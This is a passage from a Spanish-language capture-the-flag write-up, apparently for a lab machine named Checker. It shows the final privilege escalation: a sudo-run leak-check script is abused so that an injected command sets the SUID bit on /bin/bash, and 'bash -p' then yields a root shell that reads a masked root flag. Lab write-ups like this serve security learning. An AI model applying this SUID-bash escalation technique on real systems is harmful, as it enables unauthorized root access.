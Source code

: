 ```bash
reader@checker:~$ sudo /opt/hash-checker/check-leak.sh bob
Password is leaked!
Using the shared memory 0x68AB as temp location
ERROR 1064 (42000) at line 1: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"' at line 1
Failed to read result from the db
```

y el comando que hemos puesto se ha ejecutado

```bash
reader@checker:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1396520 Mar 14  2024 /bin/bash
```

Por lo que ya podemos proceder a tomar la última flag.

```bash
reader@checker:~$ bash -p
bash-5.1# cd /root
bash-5.1# ls -al
total 36
drwx------  6 root root 4096 Jun  6 10:05 .
drwxr-xr-x 21 root root 4096 Feb  6 04:22 ..
lrwxrwxrwx  1 root root    9 Feb  6 04:07 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Oct 15  2021 .bashrc
drwx------  5 root root 4096 Feb  6 04:22 .cache
drwxr-xr-x  5 root root 4096 Feb  6 04:22 .config
drwxr-xr-x  3 root root 4096 Feb  6 04:22 .local
lrwxrwxrwx  1 root root    9 Feb  6 04:07 .mysql_history -> /dev/null
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
drwx------  2 root root 4096 Feb  6 04:22 .ssh
-rw-r-----  1 root root   33 Jun  6 10:05 root.txt
bash-5.1# cat root.txt
2380beac9f2dcc377f696af002******
```